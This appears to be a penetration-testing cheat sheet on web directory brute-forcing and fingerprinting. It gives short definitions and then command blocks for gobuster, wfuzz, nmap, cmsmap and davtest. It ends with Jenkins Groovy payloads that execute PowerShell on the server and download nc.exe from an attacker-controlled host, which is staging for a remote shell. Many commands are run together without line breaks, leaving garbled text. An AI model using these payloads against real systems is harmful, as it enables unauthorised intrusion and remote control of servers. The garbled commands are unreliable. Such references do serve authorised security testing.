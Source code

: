 # **Web Application Directory bruteforcing / fingerprinting** #

## **What is Directory Bruteforcing?** ##
Directory brute-forcing is a technique used in cybersecurity to systematically guess and test directories or folders within a web server or application. This method involves trying various directory names or paths in an attempt to discover hidden or unprotected resources. By using automated tools or scripts, attackers can exhaustively search for sensitive files, configuration files, or directories containing valuable information. Directory brute-forcing poses a significant security risk as it can lead to unauthorized access, data breaches, or exploitation of vulnerabilities within the target system. Organizations often employ measures like access controls, web application firewalls, and security monitoring to mitigate the risks associated with directory brute-forcing attacks.

## **What is Fingerprinting?** ##
Fingerprinting is the systematic identification of software, frameworks, libraries, and configurations used to build a website or web service. It's akin to recognizing the unique "fingerprint" left behind by specific technologies. This process typically involves analyzing HTTP headers, response codes, URL structures, JavaScript files, and other artifacts to deduce details about the underlying infrastructure and software stack. Fingerprinting aids in understanding potential vulnerabilities, compatibility issues, and the overall security posture of web applications.

```
gobuster -u http://ip -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50gobuster -u http://ip/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 20gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/quickhits.txt -t 20gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 20 -x .txt,.phpgobuster -s "200,204,301,302,307,403,500" -w /usr/share/seclists/Discovery/Web_Content/common.txt -u http://gobuster -s "200,204,301,302,307,403,500"  -u http://XXXX -wgobuster -u http://ip -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 40Gobuster comprehensive directory bustinggobuster -s 200,204,301,302,307,403 -u iop -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'Gobuster quick directory bustinggobuster -u ip -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -a Linux
```

```
wfuzz -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 400,404,500 http://x.x.x.x/FUZZwfuzz -w /usr/share/seclists/Discovery/Web_Content/quickhits.txt --hc 400,404,500 http://x.x.x.x/FUZZ wfuzz -c -z range,1-65535 --hl=2 http://ip:60000/url.php?path=1 27.0.0.1:FUZZwfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 158607 http://bart.htb/FUZZ​
```

```
 nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip
```

```
cmsmap.py https://x.x.x.x
```

```
WebdavTest incorrect permissions:​$ cadaver http://$ip$ davtest http://$ip​
```

```
Jenking groovy codeTesting to see if we have code execution…​def sout = new StringBuffer(), serr = new StringBuffer()def proc = 'powershell.exe $PSVERSIONTABLE'.execute()proc.consumeProcessOutput(sout, serr)proc.waitForOrKill(1000)println "out> $sout err> $serr"
```

```
NC upload in jenkin Server​def process = "powershell -command Invoke-WebRequest 'http://ip/nc.exe' -OutFile nc.exe".execute();println("${process.text}");
```
